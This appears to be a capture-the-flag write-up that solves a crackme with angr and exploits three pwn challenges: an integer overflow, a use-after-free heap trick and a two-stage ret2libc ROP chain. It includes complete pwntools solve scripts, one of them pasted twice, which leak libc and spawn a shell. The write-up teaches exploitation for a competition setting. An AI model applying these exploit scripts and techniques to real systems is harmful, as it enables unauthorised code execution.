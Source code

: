 ## Table of Contents
- [rev/easy-crackme](#reveasy-crackme)
- [pwn/orcwars](#pwnorcwars)
- [pwn/flag-service](#pwnflag-service)
- [pwn/babyROP](#pwnbabyROP)

## Rev/Easy-Crackme

![image](https://github.com/user-attachments/assets/0bb9c9fc-0c5f-4733-82f8-96ef33e8e61a)

Looking at the decompilation in Ghidra, we can just reassemble the flag from local_78 to local_4f but I decided to use angr to solve it.

```py
import angr
import claripy

FLAG_LEN = 42# Provide flag length
STDIN_FD = 0
base_addr = 0x00100000

proj = angr.Project("./easy_crackme", main_opts={'base_addr': base_addr})

flag_chars = [claripy.BVS(f"flag_{i}", 8) for i in range(FLAG_LEN)]                                               

flag = claripy.Concat( *flag_chars + [claripy.BVV(b'\n')])  # so that stdin works by adding \n to the end

state = proj.factory.entry_state(stdin=flag)

for c in flag_chars:					# make sure only printable characters
	state.solver.add(c >= ord('!'))
	state.solver.add(c <= ord('~'))

my_simgr = proj.factory.simgr(state)
find_addr = 0x00101435
avoid_addr = 0x0010145a 
my_simgr.explore(find=find_addr, avoid=avoid_addr)

if (len(my_simgr.found) > 0): # If a found state exists
	for found in my_simgr.found:
		print(found.posix.dumps(STDIN_FD)) # Print out the input
```

![image](https://github.com/user-attachments/assets/dd8c6a01-e80e-4f25-ab30-54c1e2fad345)

## :drop_of_blood: Pwn/Orcwars

![image](https://github.com/user-attachments/assets/21264960-b2c2-461c-91eb-f2ebbe3cfa66)

We are presented with a menu based game where we need to get more troops than the enemy

![image](https://github.com/user-attachments/assets/f8699ce3-687a-4789-bd29-237626d15822)

Our total troops must be at least 0x22a to get the flag.

![image](https://github.com/user-attachments/assets/6b8eeebf-0b8d-492b-9987-9bd50448e129)

The problem lies in the line `if ((int)local_34 < (int)(uVar5 * 100)) {`. The variable uVar5 is declared as an unsigned integer but is being casted to an integer. Hence, we can give a large number of mercenaries. After multiplying by 100, it should result in a negative number due to how integer works.

![image](https://github.com/user-attachments/assets/8903b488-c489-436b-84a8-cd229f4b0bd8)

Enter 1.1 billion

![image](https://github.com/user-attachments/assets/67e7ef6a-00e7-436b-b3aa-f8d4b575d062)

Fake flag because the remote server is not active anymore, so I just ran this locally.

## :drop_of_blood: Pwn/Flag-service

![image](https://github.com/user-attachments/assets/f717f137-9dee-48e0-929d-40b98517fa8a)

Another menu type challenge.

<details>
<summary>Decompiled Code</summary>

```c
    switch(uVar3) {
    case 0:
      puts("not a valid input\n");
      break;
    case 1:
      puts("enter your name :");
      if (local_20 != (undefined8 *)0x0) {
        free(local_20);
      }
      local_20 = (undefined8 *)malloc(0x10);
      puVar4 = (undefined8 *)fgets((char *)local_20,0x10,stdin);
      if (puVar4 == local_20) {
        sVar5 = strlen((char *)local_20);
        *(undefined *)((long)local_20 + (sVar5 - 1)) = 0;
      }
      else {
        puts("error with name !");
        *local_20 = 0x6e776f6e6b6e75;
      }
      break;
    case 2:
      puts("how many flags do you want ? \n(100$ per flag, max 9999 flags)");
      nbflag = get_int_input(1,9999);
      if (!deleted) {
        free(order);
      }
      order = (uint *)malloc(8);
      order[1] = nbflag;
      *order = nbflag * 100;
      printf("you want %d flags, which will cost %d$\n",(ulong)nbflag,(ulong)(nbflag * 100));
      deleted = false;
      fflush(stdin);
      break;
    case 3:
      if (deleted) {
        puts("you don\'t have any order to delete");
      }
      else {
        order[1] = 0;
        *order = 999;
        free(order);
        deleted = true;
        puts("you deleted your order !");
      }
      break;
    case 4:
      if (((int)*order < 0) || ((int)money < (int)*order)) {
        puts("you don\'t have enough money to buy those flags !");
      }
      else {
        money = money - *order;
        flags = order[1];
        puts("you successfully bought the flag !");
        printf("you now have %d flags\n",(ulong)flags);
      }
      if (0 < (int)flags) {
        print_flag();
        bVar2 = false;
      }
      break;
    case 5:
      puts("Bye !");
      bVar2 = false;
      break;
```

</details>

There is a Use-After-Free (UAF) vulnerability in option 3 when deleting an order. After freeing the chunk, the order variable is not set to NULL so the pointer to the freed chunk is still able to be used. Another thing to keep in mind is that malloc(0x8) and malloc(0x10) will return the same sized chunk because the minimum size for a heap chunk is 0x10 bytes (excluding metadata). Hence, the steps of our attack will be as follows

- Create an order chunk
- Delete that order chunk
- Allocate the name chunk, the contents of this chunk will reflect your order chunk. Hence, just make the price of the flag to become $1
- Profit

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./flag_service')
libc = exe.libc

host = "flag-service.warzone-challenges.com"
port = 1339

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

p = exe.process()
# p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"exit\n", "2")
sl("1")
sla(b"exit\n", "3")
sla(b"exit\n", "1")
sl(p32(1) + p32(1))
sla(b"exit\n", "4")

p.interactive()#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./flag_service')
libc = exe.libc

host = "flag-service.warzone-challenges.com"
port = 1339

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

p = exe.process()
# p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"exit\n", "2")
sl("1")
sla(b"exit\n", "3")
sla(b"exit\n", "1")
sl(p32(1) + p32(1))
sla(b"exit\n", "4")

p.interactive()
```

</details>

![image](https://github.com/user-attachments/assets/93cbac59-c515-4e0d-99f8-18d7dc772f94)

## :drop_of_blood: Pwn/BabyROP

![image](https://github.com/user-attachments/assets/0a8006ec-9719-4f98-ab92-dcd8055affbf)

Classic BOF challenge with no win function, and only puts() imported into the binary.

![image](https://github.com/user-attachments/assets/4ddff79b-4cb4-49c3-91e0-b8f10dfe90a6)

A pop rdi gadget also conveniently placed for us. Our exploit will be split into 2 stages. First we must leak libc, then we should execute a ret2system.

### Stage 1 payload

```py
offset = 24
pop_rdi = 0x0000000000401283# : pop rdi ; ret

payload = b"a" * offset
payload += p64(pop_rdi)
payload += p64(exe.got["puts"])
payload += p64(exe.plt["puts"])
payload += p64(exe.sym.main)
```

We will overwrite the return address to call puts() and use the GOT address of puts as the argument, then we will loop back to main to trigger BOF again and run our 2nd stage.

![image](https://github.com/user-attachments/assets/d58b7404-de82-418d-8ed0-0e6f006216b9)

We have successfully leaked the libc address `\xa0\xc5s\x8d\x88\x7f`

```py
leak = u64(rl().strip().ljust(8, b"\x00"))
print("leak @ ", hex(leak))
libc.address = leak - libc.sym["puts"]
li(f"libc @ {hex(libc.address)}")
```

We can calculate the base of libc with this.

```py
system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh\x00"))
```

Now, we can search for the address of system() and the string "/bin/sh"

```py
payload = b"a" * offset
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)
```

Finally, we can craft our payload to give us RCE.

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./babyROP_patched')
libc = ELF('./libc.so.6')

host = "baby-rop.warzone-challenges.com"
port = 1343

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

p = exe.process()
# p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

offset = 24
pop_rdi = 0x0000000000401283# : pop rdi ; ret

payload = b"a" * offset
payload += p64(pop_rdi)
payload += p64(exe.got["puts"])
payload += p64(exe.plt["puts"])
payload += p64(exe.sym.main)

sl(payload)

rl()
rl()
rl()
leak = u64(rl().strip().ljust(8, b"\x00"))
print("leak @ ", hex(leak))
libc.address = leak - libc.sym["puts"]
li(f"libc @ {hex(libc.address)}")

system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh\x00"))
li(f"libc @ {hex(system)}")
li(f"libc @ {hex(binsh)}")

payload = b"a" * offset
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

sl(payload)

p.interactive()
```

</details>

![image](https://github.com/user-attachments/assets/ac124e0b-c206-4a4a-b782-4783f527e287)

